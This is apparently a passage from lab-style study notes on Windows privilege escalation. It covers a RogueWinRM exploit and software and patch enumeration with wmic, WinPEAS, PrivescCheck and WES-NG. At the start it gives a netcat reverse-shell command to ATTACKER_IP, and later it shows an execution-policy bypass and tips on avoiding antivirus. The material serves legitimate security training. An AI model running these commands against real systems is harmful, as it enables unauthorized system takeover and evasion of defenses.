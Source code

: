 Before running the exploit, we'll start a netcat listener to receive a reverse shell. And then we can trigger the exploit using the following in the webshell
```
c:\RogueFolder\RogueWinRM.exe -p "C:\CatFolder\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
This will essentially execute the RogueWinRM.exe, starting a fake WinRM and impersonate the SYSTEM user, then executing nc64.exe (`-p`) and passing the arguments that it needs to spawn a shell and connect (`-a`)


# Vulnerable Software
## Unpatched Software
The holy grail, just as with drivers, organisations and users may not update them as often as they update the operating system. We can use the `wmic` tool to list software installed on the target system and its versions. The following command will dump information it can gather on installed software
```
wmic product get name,version,vendor
```
This command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. That's why it is important to also check desktop shortcuts, "App & browser control" in windows security, installed apps in config, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
Once we have gathered product version info, we can search for existing exploits on sites like [exploit-db](https://www.exploit-db.com/) 

# Enumeration
Several scripts exist to conduct system enumeration, these tools shorten the enumeration process time and uncover different potential privilege escalation vectors. However, these can sometimes miss routes, so checking manually is always worthwhile.
## WinPEAS
WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. For info and download refer to [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). It will run commands similar to previous methods and print their output, as this can be rather lengthy it is always good practice to redirect it.
```
winpeas.exe > output.txt
```

## PrivescCheck
PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file. Info and download [PrivescCheck](https://github.com/itm4n/PrivescCheck).
To be able to run it, we may need to bypass the execution policy restrictions. To do this we can use 
```Powershell
Set-ExecutionPolicy Bypass -Scope process -Force 
. .\PrivescCheck.ps1 
Invoke-PrivescCheck
```
## WES-NG
Some exploit suggesting scripts like WinPEAS will requiere us to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid alerting and be more ninja-like we can use Windows Exploit Suggester - Next Generation (WES-NG), which will run on our attacking machine.
WES-NG is a Python script that can be found and downloaded [here](https://github.com/bitsadmin/wesng).
Once installed, and before using it, we can enter `wes.py --update` to update the database. Checking for missing patches that can result in a vulnerability we can use to escalate.